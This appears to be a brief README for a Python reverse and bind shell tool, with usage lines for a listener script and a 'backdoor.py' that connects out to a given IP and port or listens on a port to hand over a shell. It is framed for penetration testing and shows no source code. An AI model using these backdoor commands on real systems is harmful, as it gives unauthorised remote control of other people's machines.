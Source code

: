 Python Reverse-Bind Shell
Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://preview.ibb.co/hjc50z/2.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)

        
